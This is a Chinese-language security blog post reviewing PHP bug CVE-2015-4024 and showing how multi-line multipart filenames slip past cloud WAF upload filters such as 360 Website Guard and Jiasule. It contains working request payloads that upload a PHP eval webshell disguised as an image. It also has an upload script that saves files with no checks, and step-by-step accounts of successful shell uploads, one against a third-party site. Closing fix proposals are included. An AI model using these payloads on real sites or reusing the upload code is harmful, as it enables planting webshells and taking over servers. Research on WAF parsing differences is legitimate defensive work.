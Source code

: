 ```yaml
---
title: PHP DOS漏洞的新利用：CVE-2015-4024 Reviewed
date: 2016-09-24 13:20:39
categories:
 - Hacker
tags:
 - Hacker
---
```

# 1.     背景介绍
今天我们想从2015.04.03的一个PHP远程dos漏洞（CVE-2015-4024）说起。技术细节见如下链接，[https://bugs.php.net/bug.php?id=69364](https://bugs.php.net/bug.php?id=69364)。因为php解析body part的header时进行字符串拼接，而拼接过程重复拷贝字符导致DOS。事实上该漏洞还有其他非dos的利用价值，其中之一，就是绕过当前各种云WAF的文件上传防御策略。

目前国内外流行的云WAF厂商有如百度云加速，360网站卫士，加速乐，云盾等。因为PHP远程dos漏洞及PHP官方修复方案的特点，我们成功利用该漏洞绕过了当前主流WAF的文件上传防御，例如百度云加速、360网站卫士、知道创于加速乐、安全狗。

接下来，我们以PHP为例，详细解析我们的绕过方法。

# 2.     绕过WAF的原理

根据PHP DOS漏洞原理，在multipart_buffer_headers函数解析header对应value时，value值存在n行。每行的字符串以空白符开头或不存字符':'，都触发以下合并value的代码块。那么解析header的value就要执行(n-1)次合并value的代码块，从而导致DOS。

<!--more-->

```php
prev_len= strlen(prev_entry.value);

cur_len= strlen(line);

entry.value= emalloc(prev_len + cur_len + 1); //1次分片内存

memcpy(entry.value,prev_entry.value, prev_len); //1次拷贝

memcpy(entry.value+ prev_len, line, cur_len);   //1次拷贝

entry.value[cur_len+ prev_len] = '\0';

entry.key= estrdup(prev_entry.key);

zend_llist_remove_tail(header);//1次内存释放
```

而PHP官方修复方案，在进行合并时，避免重复拷贝，从而避免DOS。绕过WAF的关键在于，PHP multipart_buffer_headers函数解析header对应value时，value值存在多行。每行的字符串以空白符开头或不存字符':'，将进行合并。而WAF在解析文件上传的文件名时，没有考虑协议兼容，不进行多行合并，就可以被绕过。

根据原理构造绕过WAF文件上传防御的payload，WAF解析到的文件名为”test3.jpg”，而PHP解析到的文件名是”test3.jpg\nf/shell.php”，因为”/”是目录分隔符，上传的文件名变为shell.php。以下是绕过paylaod、测试脚本、paylaod进行文件上传的效果图。

## WAF绕过payload:

```
------WebKitFormBoundaryx7V4AhipWn8ig52y

Content-Disposition: form-data; name="file"; filename="test3.jpg\nsf/shell.php

Content-Type: application/octet-stream

<?php eval($_GET['c'])?>

------WebKitFormBoundaryx7V4AhipWn8ig52y

```

## 文件上传功能测试脚本: 

```php
<?php

         $name = $_FILES['file']['name'];

        echo $name;

        echo "\n";

        move_uploaded_file($_FILES['file']['tmp_name'] , '/usr/local/nginx/html/upload/'.$_FILES['file']['name']);

        echo "upload success! ".$_FILES['file']['name'];

        echo "\n";

        echo strlen($_FILES['file']['name']);

?>

```

Payload能够正常上传

![1](http://7xusrl.com1.z0.glb.clouddn.com/005K4Knkgw1f6apwul8mrj30r50fptbm.jpg)

# 3.     绕过WAF实战

笔者通过搭建自己的测试站，接入360网站卫士和加速乐，验证绕过WAF文件上传防御的方法。

## 3.1 绕过360网站卫士

### 步骤1，验证网站已被360网站卫士防御，拦截了直接上传PHP文件的请求。

![2](http://7xusrl.com1.z0.glb.clouddn.com/005K4Knkgw1f6apy2esg5j311v0ifdjx.jpg)

### 步骤2：成功绕过360网站卫士，上传shell成功，文件是apo.php。在该请求中，有没有Content-Type不影响绕过。

![3](http://7xusrl.com1.z0.glb.clouddn.com/005K4Knkgw1f6apztziwvj30vm0g9af6.jpg)

## 3.2 绕过知道创宇加速乐

### 步骤一：验证网站被加速乐保护，拦截了直接上传PHP文件的请求。

![4](http://7xusrl.com1.z0.glb.clouddn.com/005K4Knkgw1f6aq0sw1luj30wb0f9wjf.jpg)

### 步骤二：成功绕过加速乐，上传shell，文件是syt.php。

![5](http://7xusrl.com1.z0.glb.clouddn.com/005K4Knkgw1f6aq1mvbrqj30vr0elwh2.jpg)

## 3.3. 绕过百度云加速

百度云加速与CloudFlare，从百度匀加速拦截页面可以看出使用的是CloudFlare. 但是估计有本地化，百度云加速应该是百度和CloudFlare共同产物吧。测试百度没有搭建自己的测试环境，找了个接入了百度云加速的站进行测试。

### 步骤一：验证网站被百度云加速保护，拦截了直接上传PHP文件的请求。

![6](http://7xusrl.com1.z0.glb.clouddn.com/005K4Knkgw1f6aq30m0wjj31050etdko.jpg)

### 步骤二：成功绕过云加速

同上

# 4.     扩展—更多的工作

## 4.1 分析filename其他字符的绕过

同理，我们发现除了双引号外，使用单引号也能绕过WAF的防御，并实现文件上传。


```
------WebKitFormBoundaryx7V4AhipWn8ig52y

Content-Disposition: form-data; name="file"; filename='test3.jpg\nsf/shell.php

Content-Type: application/octet-stream

<?php eval($_GET['c'])?>

------WebKitFormBoundaryx7V4AhipWn8ig52y
```

## 4.2 分析其他应用脚本语言

我们也发现jsp解析也有自己的特点，同时可被用于绕过WAF。暂时未测试asp,aspx,python等常用的WEB应用脚本语言。

# 5.     修复方案

## 5.1 修复方案一

解析文件上传请求时，如果发现请求不符合协议规范，则拒绝请求。可能会产生误拦截，需要评估误拦截的影响范围。

## 5.2 修复方案二

兼容php的文件解析方式，解析文件名时，以单引号或双引号开头，并且对应的单引号双引号闭合。

# 6.     总结

本文通过Review PHP远程dos漏洞(CVE-2015-4024)，并利用该特性绕过现有WAF的文件上传防御，成功上传shell。 更重要的价值，提供给我们一个绕过WAF的新思路，一种研究新方向：利用后端应用脚本与WAF行为的差异绕过WAF的防御。总的来说，一款优秀的WAF应该能够处理兼容WEB应用容器、标准协议、web服务器这间的差异。
